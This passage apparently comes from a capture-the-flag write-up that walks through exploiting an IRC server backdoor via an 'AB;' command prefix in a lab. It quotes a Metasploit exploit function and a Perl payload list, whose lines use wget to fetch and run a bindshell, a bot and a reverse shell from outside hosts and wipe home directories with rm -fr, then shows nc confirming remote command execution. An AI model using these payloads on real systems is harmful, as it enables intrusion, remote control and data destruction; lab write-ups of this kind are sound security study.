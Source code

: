 I will ignore the windows exploit and examine the exploits for linux systems by using `searchsploit -x` to examine the code: `searchsploit -x exploits/linux/remote/16922.rb`. Towards the bottom, I see this function:

```ruby
def exploit
                connect

                print_status("Connected to #{rhost}:#{rport}...")
                banner = sock.get_once(-1, 30)
                banner.to_s.split("\n").each do |line|
                        print_line("    #{line}")
                end

                print_status("Sending backdoor command...")
                sock.put("AB;" + payload.encoded + "\n")

                handler
                disconnect
        end
```

From the function, it looks like the exploit is to connect and then send "AB;" + the payload + "\n"

Examining the perl script the same way, `searchsploit -x exploits/linux/remote/13853.pl`, we can the following at the top section

```perl
## Payload options
my $payload1 = 'AB; cd /tmp; wget http://packetstormsecurity.org/groups/synnergy/bindshell-unix -O bindshell; chmod +x bindshell; ./bindshell &';
my $payload2 = 'AB; cd /tmp; wget http://efnetbs.webs.com/bot.txt -O bot; chmod +x bot; ./bot &';
my $payload3 = 'AB; cd /tmp; wget http://efnetbs.webs.com/r.txt -O rshell; chmod +x rshell; ./rshell &';
my $payload4 = 'AB; killall ircd';
my $payload5 = 'AB; cd ~; /bin/rm -fr ~/*;/bin/rm -fr *';
```

It appears to be sending the same payload

## Getting Shell as boba_fett

Based on what I found during the recon stage, I will just connect with `nc` and enter `AB; [some command]` and get it running. I will test with a ping and use tcpdump to listen for icmp traffic:

```
root@cyb3r:~# nc 192.168.4.132 6697
:irc.TestIRC.net NOTICE AUTH :*** Looking up your hostname...
:irc.TestIRC.net NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB;ping -c 1 192.168.4.129
:irc.TestIRC.net 451 AB;ping :You have not registered
```

And in another windows, I can see that my attacker machine receives that pings. This proves that RCE is possible.
